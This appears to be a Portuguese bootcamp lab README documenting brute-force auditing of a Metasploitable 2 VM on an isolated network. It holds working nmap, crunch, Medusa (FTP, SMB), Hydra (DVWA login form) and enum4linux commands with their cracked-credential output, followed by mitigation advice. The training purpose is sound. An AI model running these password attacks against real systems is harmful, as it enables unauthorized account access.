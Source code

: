 # dio-santander-medusa-lab
<h1>🔐 Projeto: Auditoria de Força Bruta com Medusa & Hydra</h1>

Bootcamp Santander 2025 | DIO — Cibersegurança e Pentest Ético

🧭 1. Preparação do Ambiente

Data: ‎12‎/‎10‎/‎2025 — 20:51:21
Snapshot: criado antes dos testes (scan rápido e completo)
Alvo: 192.168.56.101 (Metasploitable 2)
Atacante: Kali Linux
Rede: Host-Only no VirtualBox

🔎 2. Reconhecimento Básico

Comando:

nmap -sC -sV -oN nmap_rapido.txt 192.168.56.101


Principais portas identificadas:

21/tcp    open  ftp         vsftpd 2.3.4
22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1
23/tcp    open  telnet      Linux telnetd
25/tcp    open  smtp        Postfix smtpd
53/tcp    open  domain      ISC BIND 9.4.2
80/tcp    open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X
445/tcp   open  netbios-ssn Samba smbd 3.0.20-Debian
3306/tcp  open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp  open  postgresql  PostgreSQL 8.3.x
8180/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1

🔍 3. Reconhecimento Completo

Comando:

nmap -A -p- -oN nmap_completo.txt 192.168.56.101


Destaques importantes:

FTP anônimo habilitado (Anonymous FTP login allowed)

SSH ativo (OpenSSH 4.7p1)

Serviço SMB vulnerável (Samba 3.0.20-Debian)

HTTP (DVWA e Tomcat 5.5) expostos

MySQL, PostgreSQL e IRC abertos

🟢 Vulnerabilidades acionáveis:

Login anônimo FTP → acesso direto sem credenciais

Samba sem assinatura → suscetível a força bruta SMB

DVWA exposta → alvo ideal para ataque de formulário web

🧾 4. Wordlists Criadas

Arquivo: /home/kali/Desktop/wordlist/

Nome	Tamanho	Origem
rockyou.txt	133.4 MB	/usr/share/wordlists/rockyou.txt
gmsfox6.txt	6.7 MB (1 M senhas)	Gerado com crunch 6 6 0123456789
user2.txt	4 KB	Criado manualmente (user, msfadmin, admin, root)
password2.txt	4 KB	Criado manualmente (123456, password, qwerty, msfadmin)

Comandos usados:

cp /usr/share/wordlists/rockyou.txt /home/kali/Desktop/wordlist
crunch 6 6 0123456789 -o gmsfox6.txt
echo -e "user\nmsfadmin\nadmin\nroot" > user2.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > password2.txt

💥 5. Desafio A — Ataque de Força Bruta em FTP (Medusa)

Comando executado:

medusa -h 192.168.56.101 -U /home/kali/Desktop/wordlist/user2.txt -P /home/kali/Desktop/wordlist/password2.txt -M ftp | tee /home/kali/Desktop/wordlist/reports/ftp_results.txt


Resultado:

ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]


Validação manual:

ftp 192.168.56.101
# Login: msfadmin
# Password: msfadmin
230 Login successful.


✅ Acesso confirmado via FTP.

🌐 6. Desafio B — Força Bruta em Formulário Web (DVWA)

Comando:

hydra -l admin -P /home/kali/Desktop/wordlist/password2.txt 192.168.56.101 http-form-post "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:S=location"


Saída:

[80][http-post-form] host: 192.168.56.101   login: admin   password: qwerty
[80][http-post-form] host: 192.168.56.101   login: admin   password: msfadmin
[80][http-post-form] host: 192.168.56.101   login: admin   password: 123456
[80][http-post-form] host: 192.168.56.101   login: admin   password: admin
[80][http-post-form] host: 192.168.56.101   login: admin   password: password


Acesso bem-sucedido:

URL: http://192.168.56.101/dvwa/login.php

Usuário: admin
Senha: password

🧱 7. Desafio C — Enumeração e Password Spraying em SMB

Enumeração:

enum4linux -a 192.168.56.101 | tee enum4linux.txt


Resumo dos achados:

Workgroup: WORKGROUP

Servidor Samba: 3.0.20-Debian

Usuários detectados: root, ftp, postgres, msfadmin, daemon, mysql, www-data, etc.

Shares acessíveis:

tmp → acesso permitido

opt, print$, ADMIN$ → acesso negado

Ataque SMB (Medusa):

medusa -h 192.168.56.101 -U /home/kali/Desktop/wordlist/user2.txt -P /home/kali/Desktop/wordlist/password2.txt -M smbnt


Resultado:

ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]


Validação:

smbclient -L //192.168.56.101/ -U msfadmin


Shares acessíveis:

print$     Disk
tmp        Disk
opt        Disk
ADMIN$     IPC
msfadmin   Disk (Home Directory)


✅ Acesso SMB confirmado via msfadmin:msfadmin

🛡️ 8. Recomendações de Mitigação
Serviço	Risco	Medidas de Mitigação
FTP	Acesso anônimo e senhas fracas	Desativar FTP, usar SFTP, implementar fail2ban, forçar políticas de senha forte
DVWA / Web	Falta de proteção contra brute-force	Adicionar CAPTCHA, MFA, bloquear tentativas excessivas e armazenar senhas com hash
SMB	Senhas fracas e SMBv1 habilitado	Atualizar para SMBv3, bloquear SMBv1, implementar bloqueio de tentativas e senhas fortes
📚 9. Conclusão

Este laboratório simulou um cenário de ataque ético completo, explorando vulnerabilidades comuns de autenticação.
O aprendizado incluiu:

Uso prático de Medusa e Hydra

Enumeração com Nmap e Enum4linux

Identificação de credenciais fracas e serviços vulneráveis

Documentação técnica e mitigação de riscos

Todos os testes foram realizados em ambiente controlado e isolado (VirtualBox host-only).
Repositório com desafios, anotações e projetos desenvolvidos durante o bootcamp Santander 2025 na DIO.
